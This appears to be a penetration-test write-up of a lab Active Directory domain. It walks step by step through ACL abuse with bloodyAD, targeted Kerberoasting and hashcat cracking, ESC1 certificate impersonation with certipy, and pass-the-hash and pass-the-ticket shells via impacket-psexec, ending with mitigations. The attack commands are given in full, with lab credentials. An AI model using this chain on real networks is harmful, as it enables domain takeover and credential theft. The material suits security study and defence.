










# Summary
This report summerizes the finding of security assessment. During the penetration test, several high-risk vulnerabilities were identified  in the Active Directory environment, including Active Directory certificate template misconfiguration (ESC1), misconfigured ACLs, exploitable weaknesses via Pass the Hash attack. Recommendations are provided to reduce the attack surface and prevent future attacks.



# Enumeration
First of all, Initial reconnaissance is required to collect data that can lead to system compromise, so the enumeration is vital part of pentration testing.

## Nmap
One of the best tool to start the enumeration is the nmap tool. It has a lot of switch so that's like a Swiss army knife.

Once the nmap has finished scanning, we can see a wealth of information about the target. In such cases we have to filtered out the relevant information that could help us to gain an initial foothold. On the output can be observed the DNS name and the environment appears to include internal certificate service.

```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ nmap -sC -sV -sS -Pn -p- -v 10.10.10.1 -oN nmap.txt
```



## Bloodhound
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ bloodhound-python -u 'v.peter' -p '0123456789qwE' -d test.local -ns 10.10.10.1 -c All
```




Bloodhound analysis reveals a valid attack path that enables us to escalate privileges and gain control over a service account.





# Abusing DACL
At first, v.peter should be added to service accounts group by abusing GenericALL privilege. At this point we will use bloodyAD tool.

BloodyAD is an open-source tool designed for AD privilege escalation and security testing. It can perform Add/remove users and computers, change/reset passwords, abuse shadow credentials and it's just tip of the iceberg.

```
┌──(kali㉿kali)-[~/Desktop/ad_project/bloodhoundDATA]
└─$ bloodyAD --host 10.10.10.1 -d 'test.local' -u v.peter -p '0123456789qwE' add groupMember 'service accounts' 'v.peter'
[+] v.peter added to service accounts
```


# Targeted Kerberoasting
ACL misconfiguration has been identified during enumeration. Password of ca_svc account can be gained by using Targeted Kerberoasting attack. Now that v.peter is member of service accounts group, we can add an SPN (ServicePrincipalName) to the ca_svc account. Therefore the account will be vulnerable to Kerberoasting. Once the kerberoast hash is obtained, it can be cracked by using hashcat and a proper wordlist.
```
┌──(kali㉿kali)-[~/Desktop/ad_project/targetedKerberoast]
└─$ ./targetedKerberoast.py --dc-ip 10.10.10.1 -v -d 'test.local' -u 'v.peter' -p '0123456789qwE'
```




# Hashcat
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ hashcat -m 13100 ca_svc_hash SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt
```

The ca_svc account was configured with a highly insecure password `YfDbUfNjH10305070`, which was easily cracked by using a standard wordlist.

# CA 
During enumeration CA, ESC1 vulnerability was indentified by using certipy-ad tool. The ESC1 vulnerablity in the vulnerable_template poses a high-severity risk to the AD environment because low-privileged user can request a certificate and specify arbitrary user within the certificate'SAN. Therefore any user on the AD environment can be impersonated.

ESC1 vulnerability can be arised when the following misconfigurations are set any template.:

- Enrollee Supplies Subject is enabled
- Authentication EKU
- Permissive Enrollment Rights
- No Manager Approval Required


```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ certipy-ad find -u 'ca_svc' -p 'YfDbUfNjH10305070' -dc-ip 10.10.10.1 -stdout
```




Certificate is requested for administrator.
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ certipy-ad req -u 'ca_svc@test.local' -p 'YfDbUfNjH10305070' -dc-ip 10.10.10.1 -ca test-DC01-CA -template 'vulnerable_template' -upn Administrator
```





Certificate are used to authenticate to the domain controller as the Administrator. At the end of the authentication, we'll gain the administrator ticket and certipy tool will dump the administrator's NTLM hash for us.
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ certipy-ad auth -pfx administrator.pfx -username administrator -domain test.local -dc-ip 10.10.10.1
```



# Lateral Movement
Impacket is open source collection of modules written in python. These can be used for pentesting and network auditing. Impacket-psexec tool will be used to demonstrate the Pass the Hash and the Pass the Ticket techniques.

## Pass the Hash

NTLM hash can be passed to the domain controller to gain a remote shell.
```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ impacket-psexec test.local/administrator@10.10.10.1 -hashes aad3b435b51404eeaad3b435b51404ee:920ae267e048417fcfe00f49ecbd4b33
```




## Pass the Ticket
Ticket can also be passed to the domain controller to gain a remote shell.

```
┌──(kali㉿kali)-[~/Desktop/ad_project]
└─$ KRB5CCNAME=administrator.ccache impacket-psexec test.local/administrator@dc01.test.local -k -no-pass
```




# Mitigation
- Remove all unnecessary GenericALL, GenericWrite rights. 
- To mitigate Targeted Kerberoasting, it's recommended to use gMSA (Group Managed Servive Account), as it provide strong, automatically rotate password.
- To mitigate ESC1 attack, 'Suppy in the request' option have to be removed and change to 'Build from this Active Directory Information' and consider enabling 'CA certificate manager approval' setting.
- To help prevent Pass the Hash attack, disable NTLM authentication vi group policy

